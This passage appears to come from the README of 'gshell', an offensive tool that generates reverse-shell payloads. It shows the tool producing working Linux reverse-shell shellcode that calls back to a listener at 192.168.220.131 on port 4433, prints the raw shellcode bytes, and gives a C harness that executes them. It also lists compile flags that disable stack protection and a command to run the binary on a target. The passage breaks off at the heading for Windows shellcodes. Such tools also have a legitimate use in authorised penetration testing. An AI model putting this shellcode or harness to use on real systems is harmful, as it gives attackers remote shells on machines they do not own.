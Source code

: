 ```sh
```

## Example of Linux Shellcodes

Here is an example of a linux shellcode:

```sh
PS C:\gshell> python .\gshell.py -i 192.168.220.131 -p 4433 --shellcode --srev --linux
[+] The IPv4 address: 192.168.220.131 is valid.
[+] The port number: 4433 is valid.
[+] Generating reverse shell shellcodes
[+] Generating Linux shellcodes
\x89\xe5\x31\xc0\x31\xc9\x31\xd2\x50\x50\xb8\x1\x1\x1\x1\xbb\xc1\xa9\xdd\x82\x31\xc3\x53\x66\x68\x11\x51\x66\x6a\x02\x31\xc0\x31\xdb\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc3\x66\xb8\x6a\x01\x89\xe1\x89\xea\x29\xe2\xcd\x80\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x49\xcd\x80\x41\xe2\xf6\x31\xc0\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
```

We could use the generated shellcode in another program or script:

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
    unsigned char code[] = "SHELLCODE_HERE";
    printf("The shellcode length is: %d\n", strlen(code));
    void (*s)() = (void *)code;
    s();
    return 0;
}
```

Install 32-bit headers and libraries:

```sh
sudo apt-get install gcc-multilib
```

As an example we could compile the code above:

```sh
gcc -m32 -fno-stack-protector -z execstack example.c -o example
```

> More information about gcc compilation can be [found here](https://stackoverflow.com/questions/54082459/fatal-error-bits-libc-header-start-h-no-such-file-or-directory-while-compili).

Run the `example` program on the target to receive the reverse shell:

```sh
chmod +x ./example && ./example
```

## Example of Windows Shellcodes
